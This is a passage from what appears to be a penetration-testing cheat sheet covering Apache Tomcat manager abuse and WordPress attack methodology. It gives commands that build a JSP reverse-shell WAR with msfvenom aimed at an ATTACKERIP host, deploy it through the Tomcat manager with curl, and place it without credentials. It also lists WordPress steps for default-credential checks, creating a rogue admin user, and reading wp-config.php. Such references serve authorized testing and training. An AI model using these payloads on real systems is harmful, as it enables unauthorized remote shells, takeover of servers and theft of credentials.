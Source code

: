 ```text

```


**Other App Actions**

*List Applications*

```bash
USER="" PASS="" ; curl -u ${USER}:${PASS} http://${IP}:8080/manager/text/list
```


*Deploy Application*

```bash
LH=ATTACKERIP LP="" ; msfvenom -p java/jsp_shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f war -o payload.war
```

```bash
USER="" PASS="" ; curl -u ${USER}:${PASS} http://${IP}:8080/manager/text/deploy?path=/payload -T payload.war
```

Deploying without creds,
- Copy `payload.war` to `%CATALINA_HOME%\webapps\shell.war`
- Run `%CATALINA_HOME%\bin\startup.bat`
- Invoke using `curl http://${IP}:8080/payload/`


*Undeploy Application*

```bash
USER="" PASS="" ; curl -u ${USER}:${PASS} http://${IP}:8080/manager/text/undeploy?path=/payload
```


#### Wordpress

**General Methodology**
> Enumerate `wordpress` to find information about plugins, users and themes.
> Check default credentials from location /usr/share/wordlists/SecLists/Passwords/Default-Credentials.
> Check for well-known exploit POCs.
> If any valid creds are found previously, check if they can be reused.


**Tips**
> If `database` access is obtained, create an admin user https://www.wpbeginner.com/wp-tutorials/how-to-add-an-admin-user-to-the-wordpress-database-via-mysql/.
> Use https://www.useotools.com/wordpress-password-hash-generator to generate hash.


**General Information**

Interesting paths.
*Login Page*
- `/wp-login.php`
- `/wp-admin/`
*Themes*
- `/wp-content/themes/<>/404.php`
*Plugins*
- `/wp-content/plugins/<>/`
*Config*
- `/wp-config.php`
*Site Health*
- `/wp-admin/site-health.php?tab=debug`
